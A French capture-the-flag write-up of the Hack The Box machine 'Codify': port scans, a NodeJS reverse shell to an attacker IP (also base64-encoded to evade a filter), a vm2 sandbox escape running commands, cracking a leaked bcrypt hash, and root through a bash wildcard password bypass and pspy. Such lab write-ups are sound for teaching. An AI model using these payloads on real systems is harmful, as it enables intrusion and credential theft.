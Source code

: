   # Codify

	echo "10.10.11.239 codify.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.239 -e tun0 > ports.txt
	sudo nmap -p- -T4 -A 10.10.11.239 -oN nmap.txt
	feroxbuster --silent -u http://codify.htb
	
Scans classiques.

	PORT STATE SERVICE VERSION  
	PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
    |_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
    80/tcp   open  http    Apache httpd 2.4.52
    |_http-title: Did not follow redirect to http://codify.htb/
    |_http-server-header: Apache/2.4.52 (Ubuntu)
    3000/tcp open  http    Node.js Express framework
    |_http-title: Codify


Le port 80 et le port 3000 semblent amener sur la même page web, mais en regardant le code source on voit pas mal de Javascript en plus pour le port 3000. J'ai décidé de commencer mes tests dessus. 

Le site permet de faire exécuter du NodeJS, j'ai directement testé un reverse-shell. 

Voir : https://medium.com/dont-code-me-on-that/bunch-of-shells-nodejs-cdd6eb740f73

Certaines fonctions semblent interdites : 

    (function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(9999, "10.10.16.89", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})();

> Error: Module "child_process" is not allowed

Même le Base64 ne passe pas si le payload contient ces fonctions interdites : 

    eval(new Buffer("KGZ1bmN0aW9uKCl7IHZhciBuZXQgPSByZXF1aXJlKCJuZXQiKSwgY3AgPSByZXF1aXJlKCJjaGlsZF9wcm9jZXNzIiksIHNoID0gY3Auc3Bhd24oIi9iaW4vc2giLCBbXSk7IHZhciBjbGllbnQgPSBuZXcgbmV0LlNvY2tldCgpOyBjbGllbnQuY29ubmVjdCg5OTk5LCAiMTAuMTAuMTYuODkiLCBmdW5jdGlvbigpeyBjbGllbnQucGlwZShzaC5zdGRpbik7IHNoLnN0ZG91dC5waXBlKGNsaWVudCk7IHNoLnN0ZGVyci5waXBlKGNsaWVudCk7IH0pOyByZXR1cm4gL2EvO30pKCk7","base64").toString("ascii"))
    
    
Je n'ai pas trouvé de moyen de contourner les filtres en place, mais j'ai trouvé un exploit pour l'environnement VM2 utilisé par le site (que l'on peut voir dans http://codify.htb:3000/about) : 

https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244


Le payload suivant me retourne bien mon identité : 

    const {VM} = require("vm2");
    const vm = new VM();

    const code = `
    err = {};
    const handler = {
        getPrototypeOf(target) {
            (function stack() {
                new Error().stack;
                stack();
            })();
        }
    };

    const proxiedErr = new Proxy(err, handler);
    try {
        throw proxiedErr;
    } catch ({constructor: c}) {
        c.constructor('return process')().mainModule.require('child_process').execSync('id');
    }

    console.log(vm.run(code));

> uid=1001(svc) gid=1001(svc) groups=1001(svc)

Les commandes sont très limitées, impossible d'obtenir un reverse-shell fiabilisé directement.

J'ai fouillé le système de fichiers : 

    find /home/svc
    ...
    find /var/www/
    
Le fichier **/var/www/contact/tickets.db** semble intéressant, il contient un hash pour l'utilisateur Joshua : 

    cat /var/www/contact/tickets.db
    
> joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2


J'ai tenté de le casser avec JTR : 

    hashid -m '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2'
    john --wordlist=/usr/share/wordlists/rockyou.txt hash_joshua.txt --format=bcrypt --rule /usr/share/hashcat/rules/best64.rule
    


On obtient le mot de passe de Joshua au bout de quelques minutes.

	ssh joshua@10.10.11.239
	cat user.txt	 

## Élévation de privilèges

	sudo -l

> User joshua may run the following commands on codify:
    &nbsp;&nbsp;&nbsp;&nbsp;(root) /opt/scripts/mysql-backup.sh


Ce script de sauvegarde est exécuté en tant que root mais demande un mot de passe. En revanche, le mot de passe n'est pas entouré de guillemets : 

    if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
    else
            /usr/bin/echo "Password confirmation failed!"
            exit 1
    fi

Cette absence de guillemets permet de faire du pattern matching.
<br>Voir : https://mywiki.wooledge.org/BashPitfalls (Partie 4)

Il suffit donc de mettre le caractère '*' pour contourner le mot de passe demandé.

Le script s'exécute bien mais ne nous retourne rien d'intéressant et ne permet pas de faire quoi que ce soit d'autre.

J'ai décidé de lancer Pspy pour l'espionner : 

    wget http://10.10.16.89/pspy64
    chmod 777 pspy64
    ./pspy64

En relançant le script et en le contournant comme avant, on voit le mot de passe root passer lors de la connexion à la base de données MySQL.

    su 
	cat /root/root.txt
